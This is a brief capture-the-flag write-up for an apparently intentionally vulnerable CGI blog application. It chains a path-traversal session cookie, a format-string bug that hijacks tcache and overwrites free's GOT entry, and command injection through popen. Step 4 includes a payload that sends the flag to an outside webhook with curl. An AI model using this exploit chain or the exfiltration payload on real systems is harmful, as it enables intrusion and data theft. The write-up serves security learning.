 # TLDR;
1. leak `main.cgi` 
2. set cookie `session=../posts/author/9a437947-455d-49d8-beba-f8b1c27ca65d.author` to escalate to admin
3. upload pwn-post via `exploit.py`'s `exploit_via_web()`, it does:
- there's a format string in `route_view_pretty()`, 
```c
    snprintf(template2,template2_size,template->buf,escaped_title,escaped_author,post,"%s");

    <...SNIP>

    snprintf(template3,template3_size,template2,escaped_content);

    tag_res = read_file(tag_path);
```
- with the format string, hijack tcache to point to GOT. then in `read_file(path)` there's two malloc with controllable size, the value of tag is then will be the new value in GOT.
```c
    __ptr = (buf_and_size *)malloc(0x10);

    <...SNIP>

    __ptr_00 = (char *)malloc(__n + 1);
```
- GOT is then hijacked with `count_files_in_dir(char *path)` since it can be used to do command injection
```c
    snprintf(pcVar3,sVar2 + 0x1e,"ls -l %s | grep \'^-\' | wc -l",path);
    count = -1;
    __stream = popen(pcVar3,"r");
    if (__stream == (FILE *)0x0) {
        count = -1;
    }
```
- GOT function to be overwritten is `free`, free will eventually be called with our cookie as its parameter which is controllable via the LFI-like exploit. this will be pointed at another post which will contain a command injection payload at no.4
4. upload pwn-command-injection with the content `;curl https://webhook.site/f2a040d5-6ae8-465f-ac1c-4b9f2938964f -d $(/readflag)#` and `test` as its title and tag. take note of the ID
5. set cookie `session=../posts/content/<PWN-COMMAND-INJECTION-POST-ID>.content`
6. visit `/cgi-bin/main.cgi/view` multiple times until it visits pwn-post
7. flag is in the webhook